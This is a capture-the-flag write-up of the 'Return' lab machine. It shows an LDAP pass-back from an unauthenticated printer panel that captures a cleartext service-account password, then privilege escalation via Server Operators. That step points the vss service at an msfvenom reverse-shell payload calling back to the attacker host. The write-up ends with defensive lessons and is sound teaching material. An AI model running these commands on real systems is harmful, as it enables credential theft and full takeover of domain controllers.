




import Toggle from '@components/Toggle.astro';
import Callout from '@components/Callout.astro';
import FlagCapture from '@components/FlagCapture.astro';
import AttackPath from '@components/AttackPath.astro';

> An LDAP pass-back from the printer's admin panel hands over a service account, and a service-binary hijack as Server Operators turns that foothold into SYSTEM.

## Recon

> A machine named PRINTER with this many ports open is not really a printer. Before I open the web panel, I want the full inventory of what it is pretending to be.

First, confirm the host is actually up.

<Toggle label="Host reachability <code>ping</code>">

```bash frame="code" title="Bash" {4}
┌──(Idan@Kali)-[~/Return]
└─> ping 10.129.19.227
PING 10.129.19.227 (10.129.19.227) 56(84) bytes of data.
64 bytes from 10.129.19.227: icmp_seq=1 ttl=127 time=69.6 ms
64 bytes from 10.129.19.227: icmp_seq=2 ttl=127 time=71.3 ms
64 bytes from 10.129.19.227: icmp_seq=3 ttl=127 time=69.0 ms
64 bytes from 10.129.19.227: icmp_seq=4 ttl=127 time=69.3 ms
--- 10.129.19.227 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3064ms
rtt min/avg/max/mdev = 68.972/69.799/71.269/0.878 ms
```

</Toggle>

The `ttl=127` is the first tell: Windows starts at 128 and every hop knocks one off. The scan settles the rest.

<Toggle label="Service & version enumeration <code>nmap</code>">

```bash frame="code" title="Bash" {13,17}
┌──(Idan@Kali)-[~/Return]
└─> nmap -sC -sV 10.129.19.227
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 10:49 -0400
Nmap scan report for 10.129.19.227
Host is up (0.087s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-30 15:08:29Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

</Toggle>

An aggressive OS scan adds nothing the service sweep has not already answered: the fingerprint comes back inconclusive, and the ports are identical. Windows is never in doubt.

<Callout type="recon">

- 53/tcp : DNS, Simple DNS Plus
- 80/tcp : IIS 10.0, serving the HTB Printer Admin Panel
- 88/tcp : Kerberos
- 389/tcp : LDAP for `return.local`
- 445/tcp : SMB, too quiet to fingerprint
- 3268/tcp : Global Catalog
- 5985/tcp : WinRM, the remote shell once I have credentials

The service list is a textbook domain controller, and the printer panel on port 80 is the only human-facing surface. That panel is where I start.

</Callout>

---

## Web Enumeration

> The scan points me at a printer admin panel. Time to open it and see how much it trusts an anonymous visitor.

First, teach my machine the domain name the scan surfaced so `return.local` resolves:

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> sudo nano /etc/hosts
# Add the following line
10.129.19.227  return.local
```

I kick off `autorecon` in the background to blanket the host, but it turns up nothing the manual scan has not already shown, so I drop the automation and open the printer panel.


*No login form, no redirect, no credential: the panel just loads, and its own navigation hands me a Settings tab. The landing page gives nothing away by itself, but reaching it anonymously is the finding.*

The home page is decoration. The Settings tab is where a printer stops being a printer.


*The Settings page (`settings.php`) holds the printer's directory login as four editable fields: printer.return.local, port 389, the username svc-printer, and a password. The password comes back as a fixed mask of seven asterisks, shorter than the real secret turns out to be. The field is not leaking the credential. It is advertising that one is stored.*

<Callout type="intel">

- The panel is unauthenticated: nothing stands between me and its settings.
- The Settings page holds everything the printer needs to authenticate outbound: a server address, a port, the `svc-printer` username, and a stored password.
- The address and the port are both editable. Rewriting the server address aims it at me, and a device that logs in to a server I control is a device that hands me whatever it authenticates with.

</Callout>

---

## Foothold: LDAP Pass-Back

> The panel lets me change where the printer sends its login. So the plan writes itself: point that login at me, and listen.

### Catching the Pass-Back

The idea is a classic LDAP pass-back. The printer authenticates to whatever address sits in that field, so I swap the address for my own and see what arrives. If it uses an LDAP simple bind, the password crosses the wire in the clear, and I need nothing but a listener.

Order matters here. The listener goes up first, because pressing Update is what sends the printer looking for its directory server: reverse the two and it knocks on a closed port while I am still typing.

Keeping the port at 389 costs me a `sudo`, since Linux reserves everything below 1024. A high port and an unprivileged listener would work just as well, but 389 keeps the traffic looking like the LDAP it claims to be.


*The only field I touch is Server Address, now 10.10.14.87. The port stays at 389 and the username and stored password stay exactly as they were, so the printer repeats what it did before, just to my machine. Pressing Update is what fires it.*

<Toggle label="Catching the cleartext bind <code>nc</code>">

```bash frame="code" title="Bash" {5,6}
┌──(Idan@Kali)-[~/Return]
└─> sudo nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.87] from (UNKNOWN) [10.129.19.227] 50371
0*`%return\svc-printer
                      1edFg43012!!
```

</Toggle>

That is not line noise. Only four framing bytes are printable, `0` and `*` opening a BER sequence and the backtick and `%` marking a bind request. The rest are control bytes, including the `0x0c` that drops the password onto its own line. This is the simple kind, which sends the name and the password as plain strings, so `return\svc-printer` and twelve characters of password arrive exactly as the printer sent them. Seven asterisks in the settings form, twelve characters on the wire.

<Callout type="vuln">

The printer performs an LDAP simple bind against the server address in its Settings page, and it sends the service account's password in cleartext. Repoint that address, listen on 389, and the password lands in my terminal. No exploit code, just a trust boundary in the wrong place.

</Callout>

One detail travels with the credential: `return\svc-printer` is a NetBIOS-style name, not the distinguished name LDAP nominally asks for. Active Directory takes it either way, so the pair goes straight to the next tool.

<Callout type="loot">

- `svc-printer` : `1edFg43012!!` (printer pass-back, caught in cleartext, not yet tried anywhere)

</Callout>

### From Service Account to a Shell

Before committing to a shell, I check where the credential is actually valid.

<Toggle label="Validating the credential <code>netexec</code>">

```bash frame="code" title="Bash" {4,9}
┌──(Idan@Kali)-[~/Return]
└─> nxc ldap 10.129.19.227 -u svc-printer -p '1edFg43012!!'
LDAP        10.129.19.227   389    PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local) (signing:None)
LDAP        10.129.19.227   389    PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)

┌──(Idan@Kali)-[~/Return]
└─> nxc winrm 10.129.19.227 -u svc-printer -p '1edFg43012!!'
WINRM       10.129.19.227   5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
WINRM       10.129.19.227   5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

</Toggle>

Both lines come back `[+]`, so the password is real and good for more than the printer that leaked it. The WinRM line is the one with a shell behind it: netexec only raises `Pwn3d!` on 5985 when the account can actually open a session there. On a domain controller, that is not a right a print account should have.

The LDAP line is the one I nearly walked past. On the `ldap` module that marker is a nested group check against five privileged groups: Domain Admins, Enterprise Admins, Administrators, Server Operators, and Backup Operators. One of them matched `svc-printer`, and netexec will not say which.

<Toggle label="Interactive session <code>evil-winrm</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> evil-winrm -i 10.129.19.227 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.9

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

</Toggle>

I land as `svc-printer`, and the user flag is one `type` away on the desktop.

<Toggle label="Reading the user flag <code>type</code>">

```powershell frame="code" title="PowerShell"
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
<user flag>
```

</Toggle>

### <span class="task-title">User Flag</span>

<FlagCapture type="user" flag="4fdcd4750ec4fad64ee0e0a9ba9074b8" />

---

## Privilege Escalation

> A WinRM shell as svc-printer is a foothold, not a finish. Now I want to know why a print account carries so much power, and which piece of it becomes SYSTEM.

### Enumerating What svc-printer Can Touch

The reflex on Windows is `whoami /priv`, and this account answers with a suspiciously long list.

<Toggle label="Privilege inventory <code>whoami /priv</code>">

```powershell frame="code" title="PowerShell" {9,11,12}
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

</Toggle>

`SeBackupPrivilege`, `SeRestorePrivilege`, and `SeLoadDriverPrivilege` on a print service account are already a red flag. Rights like these are almost never granted to a user directly: they arrive with a group. So the question is which group, and BloodHound answers it by drawing the whole domain.

<Toggle label="Domain mapping <code>bloodhound-python</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> bloodhound-python -d return.local -u svc-printer -p '1edFg43012!!' -c All -ns 10.129.19.227 --zip
INFO: Found AD domain: return.local
INFO: Found 1 computers
INFO: Found 5 users
INFO: Found 52 groups
INFO: Compressing output into 20260330122425_bloodhound.zip
```

</Toggle>


*Four group memberships for a print account, and two of them are operator groups on a domain controller. BloodHound flags both as high value.*

The graph closes both questions I left open. `svc-printer` sits in Remote Management Users, the group that exists to open the 5985 endpoint.

Most of that privilege list belongs to the other two. Loading drivers is a Print Operators default on a domain controller. Backup, restore, setting the system time, and shutting the machine down locally or remotely are all Server Operators defaults, which is six of the ten lines accounted for by one group.

The remainder is housekeeping. The working set right comes with plain Users, bypass traverse checking is granted to Everyone, and adding workstations to the domain is a default for any authenticated account. Not one right on that list was handed to `svc-printer`. Every one of them walked in through a group.

The way Server Operators reaches services is worth being precise about. There is no privilege called start-a-service. Those powers live in the individual service's own security descriptor, and on a domain controller the default descriptor on many services hands this group start, stop, and change-config together.

Change-config is the one that matters, because it covers the binary a service runs and the account it runs under. A service that already runs as LocalSystem and that this group can reconfigure is not really a service any more. It is a SYSTEM-level code path I control.

### Service Binary Hijack to SYSTEM

The plan follows from that one fact: build a reverse shell, repoint a LocalSystem service at it, and start the service. First, the payload and the listener on Kali.

<Toggle label="Payload and listener <code>msfvenom</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.87 lport=8888 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: reverse.exe
```

```bash frame="code" title="Bash"
# Terminal 1: start the listener
┌──(Idan@Kali)-[~/Return]
└─> penelope -p 8888
[+] Listening for reverse shells on 0.0.0.0:8888
```

</Toggle>

With the listener waiting, I upload the payload and query `vss` (Volume Shadow Copy). I want a service that runs as LocalSystem and that a domain controller does not need in order to keep serving the domain, and shadow copies fit both.

<Toggle label="Uploading and repointing the service binary <code>sc.exe</code>">

```powershell frame="code" title="PowerShell"
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> upload ~/Return/reverse.exe
Info: Upload successful!
```

```powershell frame="code" title="PowerShell" {6,9}
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe qc vss
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vss
        TYPE               : 10  WIN32_OWN_PROCESS
        BINARY_PATH_NAME   : C:\Windows\system32\vssvc.exe
        DISPLAY_NAME       : Volume Shadow Copy
        DEPENDENCIES       : RPCSS
        SERVICE_START_NAME : LocalSystem
```

```powershell frame="code" title="PowerShell" {2,3}
# Terminal 2: repoint the service binary and start it
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config vss binpath="C:\Users\svc-printer\Desktop\reverse.exe"
[SC] ChangeServiceConfig SUCCESS

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe start vss
```

</Toggle>

`BINARY_PATH_NAME` is the field I rewrite, and `SERVICE_START_NAME` is the reason rewriting it is worth anything: whatever sits at that path runs as LocalSystem. All three calls use `sc.exe` and not `sc`, because Windows PowerShell, which is what the WinRM endpoint drops me into, keeps `sc` as an alias for `Set-Content`. The bare name would quietly write a file instead of talking to the service manager.

`sc.exe start` then hangs, which looks like failure and is not. A raw reverse shell never speaks the service control protocol, so it never reports itself running, the manager waits out its thirty second start timeout, and the call dies with error 1053.

That verdict lands on the handshake, not on the process. Windows starts my binary as LocalSystem the moment the request arrives.

The listener catches the callback long before the service manager finishes giving up, and the shell that lands is not svc-printer.

<Toggle label="Confirming SYSTEM and reading the root flag <code>whoami</code>">

```bash frame="code" title="Bash" {4,5}
# Back in terminal 1:
[+] Got reverse shell from PRINTER~10.129.19.227-Microsoft_Windows_Server_2019_Standard-x64-based_PC  Assigned SessionID <1>
──────────────────────────────────────────────────────────────────────────────
C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type root.txt
<root flag>
```

</Toggle>

### <span class="task-title">Root Flag</span>

<FlagCapture type="root" flag="2ed9b647b2ad8ee22afa5adadb5dd07f" />

---

## Summary

The whole path in one breath: an unauthenticated printer panel on port 80 lets me rewrite where the printer sends its directory login. I point it at my own listener on 389, and it answers with an LDAP simple bind, password in cleartext, handing over `svc-printer`. Remote Management Users is why that credential opens an Evil-WinRM session and the user flag. Server Operators is why it does not stop there: on a domain controller that group can rewrite a service's binary path, so I aim the LocalSystem `vss` service at a reverse shell. Starting it runs my binary as SYSTEM, and the root flag follows.

<AttackPath
  title="Attack Path · return.local"
  nodes={[
    { kind: 'Web', name: 'Printer Panel', detail: [ { k: 'port', v: '<code>80/tcp</code> IIS, unauthenticated' }, { k: 'holds', v: 'an editable directory login for <code>svc-printer</code>' } ] },
    { kind: 'User', name: 'svc-printer', edge: '<b>LDAP pass-back</b>', detail: [ { k: 'via', v: 'cleartext simple bind caught on <code>sudo nc -lvnp 389</code>' }, { k: 'shell', v: '<code>evil-winrm</code> on 5985, user.txt' } ] },
    { kind: 'Group', name: 'Server Operators', edge: 'is <b>member of</b>', detail: [ { k: 'note', v: 'builtin group, can reconfigure services on a DC' } ] },
    { kind: 'Service', name: 'vss (LocalSystem)', edge: 'can <b>reconfigure</b>', detail: [ { k: 'right', v: 'rewrite the <code>vss</code> binary path' }, { k: 'action', v: '<code>sc.exe config vss binpath=…</code>' } ] },
    { kind: 'Root', name: 'SYSTEM', edge: 'on <b>service start</b>', detail: [ { k: 'via', v: '<code>sc.exe start vss</code> runs the payload' }, { k: 'flag', v: 'root.txt' } ] },
  ]}
/>

---

## Reflection

Three lessons, one per stage of the chain:

1. **Outbound authentication is still a credential exposure.** The pass-back worked because a device was pointed at an address an unauthenticated visitor could edit, over a bind type that sends the secret in the clear. Nobody attacked the printer. I only changed where it was already willing to log in.
2. **Service accounts are rarely as harmless as they look.** `svc-printer` read like a throwaway print identity, yet it sat in two operator groups and inherited backup, restore, and driver-loading rights. Each grant fits the group it comes from. The mistake is that the account behind a printer panel's directory login was given the group memberships of someone who administers a domain controller.
3. **Service reconfiguration rights are administrative rights.** Being able to rewrite a LocalSystem service's binary path is, in practice, the ability to run code as SYSTEM. Groups like Server Operators grant that quietly, which is exactly why they belong to administrators only.

<Callout type="defense">

Give the printer a low-privilege, read-only directory account, so a captured secret opens nothing. Then require LDAPS with the client validating the server certificate, which shuts out both a plain listener on 389 and a self-signed one on 636. Separately, remove `svc-printer` from Server Operators and grant only the specific service control the print role actually needs. Either half breaks the chain on its own.

</Callout>
